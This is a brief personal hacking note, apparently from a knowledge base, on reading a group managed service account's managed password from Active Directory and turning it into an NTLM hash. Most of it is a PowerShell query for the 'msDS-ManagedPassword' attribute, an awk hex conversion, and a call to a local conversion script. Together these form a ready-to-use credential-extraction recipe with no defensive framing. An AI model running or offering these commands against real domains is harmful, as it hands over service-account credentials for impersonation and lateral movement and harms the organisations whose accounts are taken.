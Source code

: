 # active directory  GMSA group managed service account read NTLM hash with powershell + python
```powershell
$gmsa = Get-ADServiceAccount -Identity GMSAccount -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
echo $mp
```
```bash
# managed_password is the output of `echo $mp`
cat managed_password | awk '{ printf("%.2x", $1) }' > managed_password.hex
~/kb/hacking/windows/convert-msds-managed-password-to-ntlm-hash.py
```

# References
- [20221003151134](/zet/20221003151134/README.md) active directory  GMSA group managed service account
- ~/kb/hacking/windows/windows-active-directory-and-privilege-information.md

Tags:
    #assorted
